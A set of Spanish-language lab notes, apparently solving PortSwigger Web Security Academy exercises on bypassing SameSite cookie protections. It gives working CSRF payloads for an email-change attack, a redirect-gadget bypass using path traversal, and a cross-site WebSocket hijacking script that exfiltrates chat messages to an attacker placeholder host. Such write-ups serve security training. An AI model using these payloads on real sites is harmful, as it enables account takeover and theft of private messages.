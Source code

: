 Para evitar el bloqueo por defecto del navegador del popup al ejecutar windows.open utilizamos la funcion window.onclick.

A los 5 segundos de refrescar la sesión con window.open desde la url indicada se lanzara la petición post con el cambio de usuario.

```jsx
<form method="POST" action="https://URL-VULNERABLE/my-account/change-email">
    <input type="hidden" name="email" value="antu97@test.com">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://URL-VULNERABLE/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

## Strict bypass

Laboratorio [aquí.](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-client-side-redirect)

Se puede eludir esta cookie si existe un gadget en la web que genere una solicitud secundaria en el mismo sitio.

En este caso al realizar un post se hace un redireccionamiento del momento en que se envía el post al blog con un parámetro postid, este parámetro permite inyectar valores al directorio por lo que pasando el directorio vulnerable del change email con valores de correo y submit se puede realizar el ataque, es posible ya que la petición también se puede realizar con GET

```jsx
<script>
 document.location = "https://URL-VULNERABLE/post/comment/confirmation?postId=../my-account/change-email?email=antu%40web-security-academy.net%26submit=1";
</script>
```

### Same site Sibling domain(CSWSH)

Laboratorio [aqui](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain)

Script html utilizado.

```jsx
<script>
    var ws = new WebSocket('wss://0ac60050047f30558226d44700ec00dc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        var message = event.data;
        fetch('https://SERVER-ATACANTE/exploit?message=' + btoa(message));
    };
</script>
```
